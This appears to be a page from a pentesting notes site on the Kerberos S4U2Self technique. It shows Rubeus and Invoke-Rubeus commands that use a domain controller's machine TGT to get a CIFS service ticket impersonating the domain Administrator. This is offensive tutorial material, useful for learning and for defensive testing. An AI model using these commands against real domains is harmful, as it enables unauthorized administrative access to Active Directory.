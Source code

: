 # S4U2Self

If we manage to obtain a Ticket Granting Ticket (TGT) for a system on the domain and then import that ticket into a logon session, we would not be able to access it. This is due to the fact the system accounts do not have remote access privileges over themselves.&#x20;

The image below represents a logon session where a TGT for the Domain Controller DC01 has been imported.

<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

As the Domain Controller does not have remote access privileges over itself it is not possible to list the contents of its C$ drive remotely.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (4).png" alt=""><figcaption></figcaption></figure>

However, a technique exists called S4U2Self where we are able to obtain a Ticket Granting Service (TGS) as a user who we know has administrative rights over the Domain Controller. For example, any Domain Administrator.

Rubeus has the `/self` flag for this.

{% tabs %}
{% tab title="Rubeus Binary" %}
```bash
# Syntax
Rubeus.exe s4u /impersonateuser:[User-To-Impersonate] /self 
/altservice:[Service/FQDN] /user:[User] /ticket:[Base64 Ticket] /nowrap

# In practice
Rubeus.exe s4u /impersonateuser:Administrator /self 
/altservice:cifs/dc01.security.local /user:dc01$ /ticket:iujhdfdsf== /nowrap
```
{% endtab %}

{% tab title="Invoke-Rubeus" %}
{% code overflow="wrap" %}
```powershell
Invoke-Rubeus -Command "s4u /impersonateuser:[User-To-Impersonate] /self 
/altservice:[Service/FQDN] /user:[User] /ticket:[Base64 Ticket] /nowrap"
```
{% endcode %}
{% endtab %}
{% endtabs %}

Below, using the TGT of the Domain Controller obtained earlier and using the command examples above, we are able to requests a TGS to the Domain Controller DC01 for the CIFS server as the native Domain Administrator account.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

This ticket was then imported into a new current session. We can now see the cached tickets is for the Administrator to the CIFS server on the Domain Controller.

<figure><img src="../../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

